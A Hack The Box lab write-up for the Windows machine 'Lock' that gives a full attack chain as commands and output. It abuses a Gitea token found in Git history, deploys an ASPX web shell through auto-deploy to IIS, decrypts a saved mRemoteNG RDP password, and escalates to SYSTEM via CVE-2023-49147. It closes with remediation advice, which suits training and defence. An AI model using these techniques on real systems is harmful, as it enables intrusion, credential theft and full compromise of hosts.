









# Lock - Hack The Box Write-Up

## Machine Information

| Field | Value |
| --- | --- |
| Machine | Lock |
| Platform | Hack The Box x VulnLab |
| Operating system | Windows Server 2022 |
| Difficulty | Easy |
| Primary services | IIS, SMB, Gitea, RDP |
| Main techniques | Git history enumeration, Gitea token abuse, automated deployment abuse, ASPX command execution, mRemoteNG credential decryption, CVE-2023-49147 |

## Executive Summary

Lock exposed a public Gitea repository whose commit history contained a personal access token. The token provided read and write access to a private website repository. Because commits to that repository were automatically deployed to IIS, uploading an ASPX command shell resulted in code execution as `LOCK\ellen.freeman`.

Ellen's files contained an mRemoteNG configuration with a saved RDP credential for `Gale.Dekarios`. The password was encrypted with mRemoteNG's default master password and could therefore be recovered with a public decryption script. The resulting credentials provided an interactive RDP session as Gale.

PDF24 Creator `11.15.1` was installed through an MSI package. CVE-2023-49147 allowed its repair process to expose an interactive console running as `NT AUTHORITY\SYSTEM`. Holding an opportunistic lock on a PDF24 log file kept the privileged console open long enough to launch a SYSTEM command prompt.


## Conventions

The following placeholders replace changing lab values and sensitive material:

- `<TARGET_IP>`: current IP address of Lock
- `<ATTACKER_IP>`: attacking host or VPN address
- `<GITEA_TOKEN>`: token recovered from Git history
- `<GALE_PASSWORD>`: password recovered from the mRemoteNG configuration

## Reconnaissance

### Port Discovery

A full TCP scan found four open ports:

```bash
nmap -p- -Pn --min-rate 10000 \
  -oN nmap/open-ports <TARGET_IP>
```

```text
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```

A focused scan identified the services and target hostname:

```bash
nmap -sC -sV -Pn -p80,445,3000,3389 \
  -oN nmap/services <TARGET_IP>
```

```text
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds
3000/tcp open  http          Golang net/http server
3389/tcp open  ms-wbt-server Microsoft Terminal Services

NetBIOS_Computer_Name: LOCK
Product_Version: 10.0.20348
```

Build `20348` identifies Windows Server 2022. The hostname was added to `/etc/hosts` before continuing:

```bash
echo '<TARGET_IP> lock.vl' | sudo tee -a /etc/hosts
```

### IIS and SMB

Port 80 served a corporate landing page through IIS.


Anonymous and guest SMB access failed:

```bash
smbclient -NL //<TARGET_IP>/
nxc smb <TARGET_IP> -u guest -p ''
```

```text
session setup failed: NT_STATUS_ACCESS_DENIED
LOCK\guest: STATUS_ACCOUNT_DISABLED
```

SMB did not provide an initial path, so enumeration moved to Gitea on port 3000.

### Gitea Enumeration

The **Explore** page exposed the public repository `ellen.freeman/dev-scripts`.



The repository contained `repos.py`, which reads a token from the `GITEA_ACCESS_TOKEN` environment variable and requests the current user's repositories through the Gitea API.

Reviewing the earlier commit revealed a personal access token that had been removed from the latest version but remained available in Git history.



The token was exported before running the script:

```bash
export GITEA_ACCESS_TOKEN='<GITEA_TOKEN>'
python3 repos.py http://lock.vl:3000
```

```text
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

This disclosed a second repository named `ellen.freeman/website`, which was not publicly visible.

## Initial Access

### Cloning the Private Repository

The token was accepted as the password when cloning Ellen's private repository:

```bash
git clone http://lock.vl:3000/ellen.freeman/website.git
```

```text
Username: ellen.freeman
Password: <GITEA_TOKEN>
```

The repository's README contained an important note:

```text
CI/CD integration is now active - changes to the repository
will automatically be deployed to the webserver.
```

To test the deployment, a heading in `index.html` was changed and pushed:

```bash
git add index.html
git commit -m "Test website deployment"
git push
```

After a short delay, the new heading appeared on the IIS website.



The successful push proved that the recovered token had write access. More importantly, it showed that repository write access could be converted into control of files served by IIS.

### Deploying an ASPX Command Shell

Because IIS supports ASP.NET, an ASPX shell from Laudanum was used. Its built-in IP allowlist had to be changed to permit requests from the attacking host:

```csharp
string[] allowedIps = new string[] {"<ATTACKER_IP>"};
```

The modified shell was copied into the repository and pushed:

```bash
cp /usr/share/seclists/Web-Shells/laudanum-1.0/aspx/shell.aspx \
  d3kc4rt1-shell.aspx

git add d3kc4rt1-shell.aspx
git commit -m "Add ASPX endpoint"
git push
```

Once the deployment completed, the shell was available at:

```text
http://lock.vl/d3kc4rt1-shell.aspx
```

Running `whoami` confirmed command execution as Ellen:

```text
lock\ellen.freeman
```



The command ran through the IIS application, so this was web-based command execution rather than a persistent interactive shell.

## Lateral Movement to Gale

### mRemoteNG Credential Discovery

Searching Ellen's files found two useful configuration artifacts:

- `.git-credentials` contained Ellen's Gitea password in plaintext.
- `config.xml` contained an mRemoteNG connection for `Gale.Dekarios` over RDP.

The original session did not preserve the exact file paths, so they are not reconstructed here. The relevant mRemoteNG fields were:

```xml
<mrng:Connections
  EncryptionEngine="AES"
  BlockCipherMode="GCM"
  KdfIterations="1000"
  FullFileEncryption="false">
  <Node
    Name="RDP/Gale"
    Username="Gale.Dekarios"
    Hostname="Lock"
    Protocol="RDP"
    Port="3389"
    Password="<ENCRYPTED_VALUE>" />
</mrng:Connections>
```

The configuration was transferred to the attacking host and passed to `mRemoteNG_password_decrypt`:

```bash
git clone https://github.com/gquere/mRemoteNG_password_decrypt.git
cd mRemoteNG_password_decrypt
python3 mremoteng_decrypt.py /path/to/config.xml
```

```text
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: <GALE_PASSWORD>
```

No `-p` argument was provided, so the script tried mRemoteNG's default master password, `mR3m`. It successfully decrypted the saved AES-GCM value. This was decryption with a known default key, not password cracking.

### RDP as Gale

The recovered password was valid for RDP:

```bash
nxc rdp <TARGET_IP> \
  -u 'Gale.Dekarios' \
  -p '<GALE_PASSWORD>'
```

```text
[+] LOCK\Gale.Dekarios:<REDACTED> (Pwn3d!)
```

Here, `Pwn3d!` confirmed usable RDP access; it did not prove that Gale was an administrator.

An interactive desktop was opened with FreeRDP. Drive redirection was also used to transfer `SetOpLock.exe` for the next stage:

```bash
xfreerdp3 /v:<TARGET_IP> \
  /u:'Gale.Dekarios' \
  /p:'<GALE_PASSWORD>' \
  /drive:share,/path/to/Symlink-Tools-Compiled
```

## Privilege Escalation

### PDF24 Creator 11.15.1

PDF24 Creator `11.15.1` was identified in Gale's desktop session. The matching installer was found with:

```cmd
where /R C:\ "pdf24*.msi"
```

```text
C:\_install\pdf24-creator-11.15.1-x64.msi
```

SEC Consult documents versions up to and including `11.15.1` as vulnerable to CVE-2023-49147. Version `11.15.2` contains the fix.

The vulnerability exists in the MSI repair process. Near the end of a repair, `pdf24-PrinterInstall.exe` runs as SYSTEM in a visible console and writes to `C:\Program Files\PDF24\faxPrnInst.log`. The console normally closes too quickly to use.

`SetOpLock.exe` places an opportunistic lock on that log file. When the SYSTEM process tries to access it, the operation stalls and the privileged console remains open. The oplock controls the timing; the vulnerable PDF24 repair process provides the SYSTEM context.

### Triggering CVE-2023-49147

The lab used the precompiled utility from `p1sc3s/Symlink-Tools-Compiled`; the original source is available from Google Project Zero.

In the first command prompt, an oplock was placed on the log file:

```cmd
SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```

In a second command prompt, the MSI repair was started:

```cmd
msiexec.exe /fa C:\_install\pdf24-creator-11.15.1-x64.msi
```

The `/fa` option repairs the product and forces all files to be reinstalled. When the repair reached the printer-installation stage, the SYSTEM console remained visible.



The remaining steps were performed through the graphical session:

1. Right-click the PDF24 console title bar and select **Properties**.
2. Under **Options**, click the **legacy console mode** hyperlink.
3. Open the link with Firefox. Recent Edge and Internet Explorer do not work for this technique.
4. In Firefox, press `Ctrl+O` to open the file dialog.
5. Enter `cmd.exe` in the filename field and press Enter.







The new command prompt inherited the SYSTEM security context:

```cmd
whoami
```

```text
nt authority\system
```



This completed the compromise of Lock.

## Security Observations

| Observation | Impact | Recommended control |
| --- | --- | --- |
| A personal access token remained in public Git history | An unauthenticated user gained access to a private repository | Revoke exposed tokens immediately and add automated secret scanning |
| The token could push to a deployment repository | Repository access became server-side code execution | Use least-privilege tokens, protected branches, reviews, and deployment approval gates |
| IIS deployed executable ASPX files directly from the repository | A malicious commit executed under the web-service identity | Validate build artifacts and prevent unapproved executable content from reaching the web root |
| mRemoteNG used its default master password | Ellen's file access exposed Gale's RDP password | Set a strong unique master password and restrict access to connection files |
| Vulnerable PDF24 MSI repair behavior exposed a SYSTEM console | A local GUI user could escalate to SYSTEM | Upgrade to PDF24 Creator `11.15.2` or later, or use the EXE installer workaround |

## Key Lessons

1. Deleting a secret from the current Git revision does not remove it from commit history.
2. A write-capable token is especially dangerous when its repository feeds an automated deployment.
3. Encrypted saved credentials remain vulnerable when the application's default master password is unchanged.
4. Valid RDP credentials provide a desktop session, not necessarily administrative privileges.
5. `SetOpLock.exe` keeps the privileged process available; it is not the vulnerability by itself.
6. CVE validation should include the affected version and required conditions, not only a matching exploit name.

## References

- [SEC Consult: Local Privilege Escalation via MSI installer in PDF24 Creator](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)
- [NVD: CVE-2023-49147](https://nvd.nist.gov/vuln/detail/CVE-2023-49147)
- [Google Project Zero: Symbolic Link Testing Tools](https://github.com/googleprojectzero/symboliclink-testing-tools)
- [gquere: mRemoteNG password decryption utility](https://github.com/gquere/mRemoteNG_password_decrypt)
- [p1sc3s: Precompiled symbolic-link testing tools used in the lab](https://github.com/p1sc3s/Symlink-Tools-Compiled)
- [Kali Linux: Laudanum web shells](https://www.kali.org/tools/laudanum/)
